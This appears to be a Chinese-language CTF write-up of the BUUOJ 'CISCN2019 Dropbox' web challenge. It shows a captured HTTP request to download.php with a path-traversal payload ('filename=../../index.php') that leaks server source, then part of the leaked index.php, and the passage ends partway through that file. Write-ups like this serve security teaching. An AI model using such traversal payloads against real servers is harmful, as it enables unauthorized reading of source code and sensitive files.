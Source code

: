 # [CISCN2019 华北赛区 Day1 Web1]Dropbox

[题目地址](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web1]Dropbox)

要配个php环境了，这已经是第二道因为没有php而做不了的题了。

注册登录后可以上传文件。传个普通图片试试水，发现没有回显出文件路径，那就不是文件上传木马题。不过有下载和删除两个选项，有点自娱自乐的感觉。自己传一个文件自己下载，抓包自然是必不可少。发现给download.php发的post有filename参数。这我不得给你改个名字，直接顺着摸到index.php。

```
POST /download.php HTTP/1.1
Host: 24a3d8be-401e-4cc5-8594-cc11d726c068.node4.buuoj.cn:81
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Origin: http://24a3d8be-401e-4cc5-8594-cc11d726c068.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://24a3d8be-401e-4cc5-8594-cc11d726c068.node4.buuoj.cn:81/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5977975f7b9327f32300d794933420b1
Connection: close

filename=../../index.php
```

这个路径我是蒙出来的，上传的文件肯定不可能在网站根目录，大概率在子目录。不过多少层不确定，那就一层一层往上摸上去，看哪里能下载到index.php。而有经验的大佬们直接猜测上传内容在`网站主目录/sandbox/hash`目录下，一步到位。

```php
<?php
session_start();
if (!isset($_SESSION['login'])) {
    header("Location: login.php");
    die();
}
?>


<!DOCTYPE html>
<html>

<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
<title>网盘管理</title>

<head>
    <link href="static/css/bootstrap.min.css" rel="stylesheet">
    <link href="static/css/panel.css" rel="stylesheet">
    <script src="static/js/jquery.min.js"></script>
    <script src="static/js/bootstrap.bundle.min.js"></script>
    <script src="static/js/toast.js"></script>
    <script src="static/js/panel.js"></script>
</head>

<body>
    <nav aria-label="breadcrumb">
    <ol class="breadcrumb">
        <li class="breadcrumb-item active">管理面板</li>
```